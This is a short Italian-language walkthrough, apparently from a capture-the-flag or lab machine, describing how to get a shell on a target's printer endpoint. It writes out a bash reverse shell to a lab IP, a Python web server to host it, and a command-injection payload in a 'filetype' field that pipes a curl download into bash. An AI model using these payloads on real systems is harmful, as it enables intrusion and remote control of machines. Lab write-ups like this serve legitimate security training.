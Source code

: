 1) Creo un file con dentro la reverse shell: 
nano reverse.sh

---> bash -i >& /dev/tcp/10.10.14.104/1234 0>&1

2) Aprire un webserver con python: 
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8081 

3) Su Burp devi fare una richiesta (sulla directopry printer) per scaricarti una foto, e poi la blocchi con il proxy e la porti a Repeter
4) Cambi l'intestazione del campo filetype con: 
filetype=jpg;curl+http://10.10.14.199:8081/reverse.sh+|+bash
